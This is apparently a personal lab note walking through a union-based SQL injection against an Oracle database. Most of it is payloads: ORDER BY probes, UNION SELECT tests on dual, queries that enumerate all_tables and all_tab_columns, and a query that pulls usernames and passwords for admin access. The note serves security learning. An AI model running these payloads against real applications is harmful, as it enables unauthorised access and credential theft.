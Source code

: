 # listing on Oracle database

list query

```
select * from all_tables
```

listing via column query

```
select * from all_tab_column where table_name='Users'
```

end goal : listing content of database

need to find columns

```
' order by 1--
' order by 2--
```
two columns 

String data type query

```
' union select 'a', 'a' from dual--
```
both column contains string 

finding tables name 

```
' union select table_name, NULL from all_tables-- 
```

got the tables

now retireving more the data of column

```
' union select column_name, NULL from all_tab_columns where table_name='USERS_ERVCVG
'-- 
```
got the column of user and password

```
' union select USERNAME_HZHOFM
, PASSWORD_MHVDJN from USERS_ERVCVG-- 
``` 


got the password for admin access
